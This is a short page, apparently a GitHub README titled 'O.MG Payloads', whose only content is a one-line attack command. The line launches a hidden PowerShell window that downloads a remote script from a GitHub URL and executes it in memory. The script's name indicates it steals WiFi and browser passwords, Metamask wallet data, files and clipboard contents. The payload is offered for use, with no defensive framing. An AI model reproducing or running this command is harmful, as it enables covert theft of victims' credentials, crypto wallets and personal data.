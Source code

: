 # O.MG Payloads

**Run Invisible PowerShell Window**
`conhost --headless powershell.exe -Command "irm https://raw.githubusercontent.com/WesleyWong420/OPSEC-Tradecraft/refs/heads/main/O.MG%20Payloads/WiFi_Browser_Passwords_Metamask_FilesExfil_ClipboardData.ps1 | iex"`
